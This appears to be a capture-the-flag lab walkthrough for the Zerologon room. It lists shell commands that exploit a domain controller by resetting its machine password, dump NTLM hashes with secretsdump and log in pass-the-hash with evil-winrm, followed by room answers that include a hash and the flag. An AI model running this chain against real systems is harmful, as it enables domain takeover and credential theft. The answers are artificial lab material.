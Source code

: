 # Zero Logon - Hard

* This room covers the walkthrough for the Zero Logon exploit, which abuses a MS-NRPC (Microsoft NetLogon Remote Protocol) feature.

* We use the [Proof of Concept](https://raw.githubusercontent.com/SecuraBV/CVE-2020-1472/master/zerologon_tester.py) and the [modified script](https://raw.githubusercontent.com/Sq00ky/Zero-Logon-Exploit/master/zeroLogon-NullPass.py) for this exploit to work.

```shell
python3 -m pip install virtualenv

python3 -m virtualenv impacketEnv

source impacketEnv/bin/activate

pip install git+https://github.com/SecureAuthCorp/impacket
#setting up impacket in virtualenv
```

```shell
nmap -T4 -A 10.10.187.79
#scan machine to get netbios name

#now we can use the zerologon.py script
python3 zerologon.py
#show syntax

python3 zerologon.py DC01 10.10.187.79
#exploits zero logon, changes password

secretsdump.py -just-dc-ntlm -no-pass DC01\$@10.10.187.79
#dumps hashes given domain controller and IP
#we can use admin hash to connect

evil-winrm -u Administrator -H 3f3ef89114fb063e3d7fc23c20f65568 -i 10.10.187.79
#get access

cd ..\Desktop

type root.txt
```

1. What method will allow us to change Passwords over NRPC? - NetrServerPasswordSet2()

2. What are the required fields for the method per the Microsoft Documentation? - PrimaryName, AccountName, SecureChannelType, ComputerName, Authenticator, ReturnAuthenticator, ClearNewPassword

3. What Opnumber is the method? - 30

4. What is the NetBIOS name of the Domain Controller? - DC01

5. What is the NetBIOS name of the network? - hololive

6. What domain are you attacking? - hololive.local

7. What is the Local Administrator's NTLM hash? - 3f3ef89114fb063e3d7fc23c20f65568

8. How many Domain Admin accounts are there? - 2

9. What is the root flag? - THM{Zer0Log0nD4rkTh1rty}
